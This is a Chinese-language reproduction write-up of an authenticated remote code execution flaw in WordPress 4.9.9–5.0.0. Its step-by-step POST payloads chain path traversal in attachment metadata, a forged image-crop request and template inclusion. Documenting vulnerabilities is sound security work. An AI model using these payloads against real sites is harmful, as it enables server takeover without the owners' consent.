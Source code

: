 （CVE-2019-6977）WordPress 5.0 RCE
==================================

一、漏洞简介
------------

漏洞条件：拥有一个author权限的账号

二、漏洞影响
------------

影响包括windows、linux、mac在内的服务端，后端图片处理库为gd/imagick都受到影响，只不过利用难度有所差异。

其中，原文提到只影响release
5.0.0版，但现在官网上可以下载的5.0.0已经修复该漏洞。实际在WordPress
5.1-alpha-44280更新后未更新的4.9.9\~5.0.0的WordPress都受到该漏洞影响。

三、复现过程
------------

传图片

![](./resource/(CVE-2019-6977)WordPress5.0rce/media/rId24.png)

改信息

![](./resource/(CVE-2019-6977)WordPress5.0rce/media/rId25.png)

保留该数据包，并添加POST

    &meta_input[_wp_attached_file]=2019/02/2-4.jpg#/../../../../themes/twentynineteen/32.jpg

触发需要的裁剪

![](./resource/(CVE-2019-6977)WordPress5.0rce/media/rId26.png)

裁剪

![](./resource/(CVE-2019-6977)WordPress5.0rce/media/rId27.png)

同理保留改数据包，并将POST改为下面的操作，其中nonce以及id不变

    action=crop-image&_ajax_nonce=8c2f0c9e6b&id=74&cropDetails[x1]=10&cropDetails[y1]=10&cropDetails[width]=10&cropDetails[height]=10&cropDetails[dst_width]=100&cropDetails[dst_height]=100

触发需要的裁剪

![](./resource/(CVE-2019-6977)WordPress5.0rce/media/rId28.png)

图片已经过去了

![](./resource/(CVE-2019-6977)WordPress5.0rce/media/rId29.png)

包含，我们选择上传一个test.txt，然后再次修改信息，如前面

    &meta_input[_wp_page_template]=cropped-32.jpg

![](./resource/(CVE-2019-6977)WordPress5.0rce/media/rId30.png)

点击查看附件页面，如果图片被裁剪之后仍保留敏感代码，则命令执行成功。

![](./resource/(CVE-2019-6977)WordPress5.0rce/media/rId31.png)

四、参考链接
------------

> <https://www.freebuf.com/vuls/196514.html>
